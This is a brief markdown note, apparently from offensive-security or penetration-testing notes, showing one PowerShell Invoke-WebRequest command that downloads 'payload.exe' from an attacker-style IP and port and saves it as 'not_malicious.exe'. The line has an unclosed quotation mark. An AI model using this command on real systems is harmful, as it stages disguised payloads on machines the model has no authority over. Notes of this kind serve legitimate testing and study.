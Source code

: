 # windows

## powershell

### invoke-webrequest

`Invoke-WebRequest -UseBasicParsing "http://10.10.13.37:8000/payload.exe -OutFile not_malicious.exe`
